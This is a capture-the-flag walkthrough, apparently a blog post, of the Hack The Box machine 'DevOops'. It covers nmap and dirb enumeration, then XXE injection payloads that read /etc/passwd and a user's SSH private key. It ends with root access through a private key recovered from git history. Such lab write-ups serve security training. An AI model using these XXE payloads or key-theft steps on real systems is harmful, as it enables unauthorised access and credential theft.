

The IP of this box is 10.10.10.91

#### NMAP Results

We begin with the NMAP Scan by the command **nmap -sC -sV -oA devoops 10.10.10.91**

> # Nmap 7.70 scan initiated Wed Jun 6 02:35:31 2018 as: nmap -sV -sV -oA nmap 10.10.10.91
>
> Nmap scan report for 10.10.10.91
> Host is up (0.19s latency).
> Not shown: 998 closed ports
> PORT STATE SERVICE VERSION
> 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
> 5000/tcp open http Gunicorn 19.7.1
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

> Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .

# Nmap done at Wed Jun 6 02:36:14 2018–1 IP address (1 host up) scanned in 42.71 seconds

As we see the 2 ports are open ,i.e, Port 22 running **SSH** and Port 5000 running** http**

**HTTP Services**

Now as we see http service running on port 5000 , we open this IP 10.10.10.91:5000 on a web browser and check the web application running

](https://cdn-images-1.medium.com/max/2672/1*TQMaNT8xh2uY6q0qVdSVuQ.png)

Here we see nothing interesting , lets run dirb on it

#### Dirb

Now we run our dirb scan

Dirb result shows two subdirectories , **/feed** and **/upload**

> If you face issues running dirb , it might be due to blocked USER-AGENT or something

> Use dirsearch tool (download from Github) which has additional parameter “-random-agents”

#### /feed

We try to access [http://10.10.10.91:5000/feed](http://10.10.10.91:5000/feed) , we get

Nothing interesting in **/feed** , so we move to **/upload**

#### /upload

Now we try to access [http://10.10.10.91:5000/upload](http://10.10.10.91:5000/upload)

Here we see we can upload some files , at first I thought it might have file upload vulnerability , so I uploaded a random photo file(.png , .jpeg or anything) and I get

And as we choose file and then click on the Upload button , it doesn't gets upload

As we see there is something written as XML elements: Author, Subject , Content , which strikes directly to XXE Injection , so we give it a try

#### XXE Injection

For more details on XXE , refer to OWASP TOP 10

Below is the code which we will use to exploit the XXE

> <?xml version=”1.0" encoding=”ISO-8859–1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM “file:///etc/passwd” >]>
<creds>
 <Author>&xxe;</Author>
 <Subject>mysub</Subject>
 <Content>mycontent</Content>
</creds>

> <! — We have edited <user> and <pass>(as referenced in the link of the XXE code) to <Author> , <Subject> , <Content> as we
> clearly see that in the /upload directory says XML Elements: Author, Subject, Content which is a clear indication to use this
> as the XML tags →

**Result of the above XXE Code**

We intercept the traffic through Burp and see the results

After choosing the exploit.xml file which contains the XXE Injection code , we click on Upload and intercept its traffic through Burp Suite and then send the request to Repeater

Sending this to Repeater and clicking Go , we get

Boom , we get the contents of the /etc/passwd file as we gave in the code above , now lets check the users from the contents of the /etc/passwd file

As we see there is an user name **_“roosa”_**

Now we will get the ssh authentication key of the roosa user as we know from the NMAP scan that SSH is open

Below is the XML Code to get the ssh authentication key for **“roosa”** user

> <?xml version=”1.0" encoding=”ISO-8859–1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM “file:///home/roosa/.ssh/id_rsa” >]>
<creds>
 <Author>&xxe;</Author>
 <Subject>mysub</Subject>
 <Content>mycontent</Content>
</creds>

> <! — We just replaced /etc/passwd from the previous code by /home/roosa/.ssh/id_rsa →

Now we just modify the code in the Burp Repeater and click Go

Here we get the ssh in the response body , now we copy the part from — — — — BEGIN to — — — — END RSA….. and save it to a file named **_“id_rsa”_**

But yeah change the permission of **id_rsa** file to **600** using **“chmod 600 id_rsa”**

#### Login Through SSH

> Now we open a terminal and connect through ssh using command **“ssh roosa@10.10.10.91 -i id_rsa”**

Boom !!! We are in , now lets dig further

#### Getting User Flag

The user flag was in the same directory to which we were login through ssh , just type the command **_ls_** and you will see

# Privilege Escalation

Privilege Escalation was little tough and tricky on this machine , so lets move forward to it

#### Searching and searching for some clues

There was a script on the directory , which is a in the SS below

After searching more , this wasn't useful, but yeah then we saw 2 directories which was odd , i.e , **work **and **deploy**

We got a .git folder , so lets try the git log command on it and see the results

#### Git Log

Now running **_“git log_**” command on the .git folder , we get

Here we dont get anything interesting , lets check further by **_“git log -r”_** command and scroll down , we get

It says **_“reverted accidental commit with proper key”_** which was the hint , so after googling about **“git revert”** and more like that , i got that using
the command** “git log -p -6”** , so lets run this command and then check the results

After scrolling down and down , we see something like ssh keys , one of them in** green** color and one of them in **red**

The **_red_** one was the old which was reverted accidentally to the new one(which is in **_green_** color)

So lets copy the red section and then save it to a file name **_“id_rsa2”_** , this is probably the ssh key to root

Don’t forget to change the permissions of the **id_rsa2 file** to **600** using **chmod**

#### Login To Root Through SSH

Now we login to root using ssh , use the command **_“ssh root@10.10.10.91 -i id_rsa2”_**

We are now root , bingo.!!

#### Getting The Root Flag

Now getting the root flag which is on the same directory to which we were logged

This machine was very cool , getting user was easy but root was very tough for me

#### Vulnerabilities Used To Solve This Box :-

> XXE Injection → Low Privileges

> Git → Root Privileges

# References

XXE Injection Exploitation → [https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)